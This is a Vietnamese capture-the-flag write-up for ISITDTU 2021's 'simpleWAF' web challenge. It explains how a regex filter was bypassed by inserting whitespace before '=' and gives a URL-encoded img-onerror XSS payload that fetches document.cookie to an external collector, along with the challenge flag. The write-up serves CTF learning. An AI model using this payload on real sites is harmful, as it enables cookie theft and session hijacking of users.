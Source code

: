 # simpleWAF

![image](https://user-images.githubusercontent.com/61876488/144350542-b51f15ac-a746-4151-9668-ad6f3c1910e4.png)

[Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/ISITDTU%20CTF/2021/web/simpleWAF/source)


Đây là challenge web đầu và cũng là dễ nhất trong 4 challenge của ISITDTU CTF năm nay. Dù vậy vì một số lí do ngu người nên mất cả buối sáng mình mới solve đc bài này.

### 1. Initial reconnaissance:

![image](https://user-images.githubusercontent.com/61876488/143764818-b63dd063-04cf-4de2-afe7-6fa69f0d859c.png)

- Nhìn qua challenge này cho hẳn source với rất nhiều regex, cùng với một cái url parameter to tướng ở phía trên tên là **XSS** thì chắc chắn hướng đi sẽ là từ [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) lấy cookie của client. 
- Đề bài còn cho biết: `if you can steal cookie, bot will check it at here`, nghĩa là sau khi exploit lấy cookie thành công từ site chính rồi, chúng ta sẽ submit payload cho con bot dưới đây check xem có hợp lệ và nếu đúng nó sẽ trả cho chúng ta flag.

![image](https://user-images.githubusercontent.com/61876488/143770699-6dc9cc9b-9879-4be6-a6ca-186c8bac69c4.png)

### 2. Analyze and find the vulnerabilities:

- Đầu tiên, website sẽ lấy ra string từ url parameter `xss` rồi check xem nó đã đc url encode chuẩn chưa (thông qua vòng while). Sau đó nếu như trong string đó có các [HTML entities](https://www.w3schools.com/html/html_entities.asp) thì nó sẽ trở về dạng HTML tag bình thường thông qua hàm `html_entity_decode`.

```php
$xss = $_GET['xss'];

$tmpxss = $xss;
do
{
    $xss = $tmpxss;
    $tmpxss = urldecode($xss);
} while($tmpxss != $xss);

$xss = html_entity_decode($xss);
```

- Tiếp theo là phần phải đụng cơ tay một tí là bypass regex. Nhìn qua ta có thể thấy regex sẽ filter các string như `on<gì đó>=`, `src=`, `href=`, `<script`, `<object` nếu nó xuất hiện trong biến **$xss** ở trên. Nếu có xuất hiện sẽ in ra `WAF block`, nếu không thì payload là hợp lệ và sẽ được in ra

```php 
$valid = true;
if(preg_match("/\<\w+.*on\w+=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<\w+.*src=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<\w+.*href=.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<script.*/i", $xss))
{
    $valid = false;
}

if(preg_match("/\<object.*/i", $xss))
{
        $valid = false;
}

if($valid == true)
{
    echo $xss;
}
else
{
    echo "WAF block";
}
```

- Các string như `on<gì đó>=`, `src=`, `href=`, `<script`, `<object` thường xuất hiện trong các xss payload, giờ đã bị ban. Vậy thì làm sao để nó hợp lệ? Chợt nhận ra thằng web này nó chỉ cấm mình dùng `on<gì đó>=` chứ không cấm mình dùng `on<gì đó> =` (thêm 1 dấu cách vào, thâm chí muốn chắc kèo thêm kí tự `\n` vào cũng được luôn). Thí dụ chúng ta có thể xài một cái payload như này:

![image](https://user-images.githubusercontent.com/61876488/143773209-5d07eee5-5b17-498b-ad75-e9ea595ab3b1.png)

- Dùng payload `w` rồi thử alert một cái chơi:

![image](https://user-images.githubusercontent.com/61876488/143773362-d7eec521-a23b-4005-9ab5-2095e14b2627.png)

Amazing, giờ viết script để gửi cookie về domain của mình thôi!

### 3. Exploit and get flag:

- Ý tưởng về việc steal cookie nó sẽ tóm gọn như này (sủ dụng [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch)): 

```javascript
fetch('<URL muốn gửi đến>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
```
- Nhét nó vào payload để chạy trên web này nó sẽ thành như sau:

```
%3Cimg%20src/%20%0Donerror%0D%20=%22fetch(%27<URL muốn gửi đến>%27,%20{method:%20%27POST%27,%20mode:%20%27no-cors%27%20,body:document.cookie})%22%3E
```

- Ví dụ ta có url muốn gửi đến là `https://jxkku1rri7bor6fs1hjaeu4yyp4fs4.burpcollaborator.net` (sử dụng [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) để tạo các domain như này, đồng thời bắt các request gửi về khi payload chạy):

![image](https://user-images.githubusercontent.com/61876488/143773913-d5425ee3-7ba7-4b17-903e-c1745f5c11cb.png)

- Tiếp theo mình sẽ submit cái nguyên si cái payload này cho con bot để lấy flag và tiếp tục sử dụng Burp Collaborator client để bắt request, và đây là nơi cái ngu bắt đầu :).

![image](https://user-images.githubusercontent.com/61876488/143774022-ae572395-e947-444b-85b6-4a4afc68f653.png)
 
- Không hiểu bằng một cách magic nào mà lần này nó chỉ gửi mỗi DNS request đến Burp Collaborator client, trong khi thứ ta đang cần là một HTTP request như ảnh trên :(. Mình đã tốn thời gian cho một việc ngu ngốc là gửi đi gửi lại dù biết nó sẽ sai, cho đến khi được người ra đề là anh "0xd0ff9" gõ đầu mới ngộ ra:

![image](https://user-images.githubusercontent.com/61876488/143774177-8f380b14-b5d1-44b8-ab92-56f52b32cda0.png)

Có vẻ có vấn đề gì đó với policy của Chrome phiên bản mới nhất, sau một hồi search gg và hỏi khắp nới thì t biết được policy của chrome mới nhất ko cho phép redirect qua http, do đó Burp Collaborator client sẽ không bắt được HTTP. Nhưng mà trước khi biết được điều này thì t đã mò đại được cái webhook hay ho https://requestcatcher.com/ này để bắt request, và nó đã hoạt động :D

![image](https://user-images.githubusercontent.com/61876488/143775278-0fd6ae7b-b568-4aed-aacd-4040af89a807.png)

![image](https://user-images.githubusercontent.com/61876488/143775285-b2183718-ad8e-4ba4-b72d-0bf8a88794db.png)

Flag: `ISITDTU{64858f4560416acff930bf673b5046911947a26e}`





